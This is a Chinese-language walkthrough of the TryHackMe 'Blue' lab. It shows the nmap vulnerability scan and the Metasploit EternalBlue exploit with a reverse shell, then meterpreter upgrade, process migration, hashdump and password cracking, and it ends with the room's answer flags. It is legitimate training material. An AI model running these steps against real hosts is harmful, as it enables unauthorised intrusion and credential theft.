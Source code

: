 # THM-Blue-练习

本文相关的TryHackMe实验房间链接：https://tryhackme.com/room/blue

## Recon （侦察-信息收集阶段）

使用nmap进行端口扫描:

```shell
nmap -sV -vv --script vuln 10.10.100.31           #nmap -sV -vv --script vuln TARGET_IP
```

![image-20221006121232447](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006121232447.png)

![image-20221006121440607](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006121440607.png)

**答题卡**

![image-20221006120152100](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006120152100.png)

## Gain Access（获取目标权限）

执行exp在目标机器上获得立足点。

启动msf，搜索exp代码，参考相关选项，设置相关参数，执行exp

```shell
msfconsole
search ms17-010
use exploit/windows/smb/ms17_010_eternalblue
show options
set RHOSTS 10.10.100.31
set payload windows/x64/shell/reverse_tcp    #使用默认的payload也可以
run
```

![image-20221006122617559](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006122617559.png)

![image-20221006122814091](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006122814091.png)

**答题卡**

![image-20221006122857577](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006122857577.png)

## Escalate （提升权限）

使用命令，将上一步骤中获得的shell转换为meterpreter shell

```shell
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
show options
sessions -l
set SESSION 1
run
sessions -l
sessions -i 2
```

![image-20221006123816402](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006123816402.png)

![image-20221006123910236](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006123910236.png)

得到meterpreter shell之后，迁移当前进程到高权限用户下，以此提升meterpreter权限

![image-20221006124319584](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006124319584.png)

![image-20221006124456868](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006124456868.png)

![image-20221006124542565](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006124542565.png)

**答题卡**

![image-20221006132423216](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006132423216.png)

## Cracking （破解密码hash）

转储非默认用户的密码并破解它。

```shell
hashdump
```

![image-20221006132804855](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006132804855.png)

直接使用在线网站破解，也可以通过使用rockyou.txt字典结合破解工具进行hash破解。

![image-20221006132730856](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006132730856.png)

![image-20221006133808522](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006133808522.png)

**答题卡**

![image-20221006133837807](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006133837807.png)

## Find flags（寻找flag）

使用命令查找flag文件

![image-20221006140158604](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006140158604.png)

![image-20221006140656884](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006140656884.png)

**答题卡**

> flag{access\_the\_machine}
>
> flag{sam\_database\_elevated\_access}
>
> flag{admin\_documents\_can\_be\_valuable}

![image-20221006141555023](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006141555023.png)
